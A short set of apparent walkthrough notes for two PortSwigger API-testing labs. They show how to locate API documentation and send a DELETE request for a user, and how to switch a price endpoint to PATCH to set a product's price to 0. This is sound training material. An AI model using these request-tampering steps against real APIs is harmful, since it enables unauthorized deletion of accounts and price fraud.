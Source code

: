 # 1. Lab: Exploiting an API endpoint using documentation: [Link](https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation)
- Update the email > In Proxy > HTTP history, right-click the `PATCH /api/user/wiener` request and select Send to Repeater.
> The GET method requests a representation of the specified resource. Requests using GET should only retrieve data.
- Find the documentation: `GET /api/ HTTP/2`
- Delete the user: `DELETE /api/user/carlos HTTP/2`


# 2. [Finding and exploiting an unused API endpoint](https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint)
- Update the email > In Proxy > HTTP history, right-click the `GET /api/products/4/price HTTP/2` request and select Send to Repeater.
> The GET method requests a representation of the specified resource. Requests using GET should only retrieve data.
- Change the Method: `PATCH /api/products/1/price HTTP/2` > `"error":"Only 'application/json' Content-Type is supported"`
- Add `Content-Type: application/json` & {"price": 0} in body
- It will update the Price in the Application.
- ![image](https://github.com/user-attachments/assets/2131ee78-052c-417f-b043-c6b6e9b93d09)


